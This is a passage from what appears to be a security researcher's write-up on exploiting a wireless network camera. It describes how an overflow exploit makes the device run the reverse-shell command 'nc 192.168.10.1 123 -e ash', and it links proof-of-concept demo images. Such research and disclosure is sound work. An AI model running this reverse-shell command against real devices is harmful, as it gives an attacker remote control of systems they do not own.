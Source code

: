This exploit will cause the system to execute the **nc 192.168.10.1 123 -e ash** command, forking the process and connecting to our netcat listener running on 192.168.10.1 and giving us a reverse shell.

Here is a demo of the exploit using the global leak:

![global_overflow_poc.png](/assets/images/analysing_a_wireless_network_camera_part_2/global_overflow_poc.png)

And here is a demo of the exploit using the FTP leak for completeness:

![ftp_stack_overflow_poc.png](/assets/images/analysing_a_wireless_network_camera_part_2/ftp_stack_overflow_poc.png)
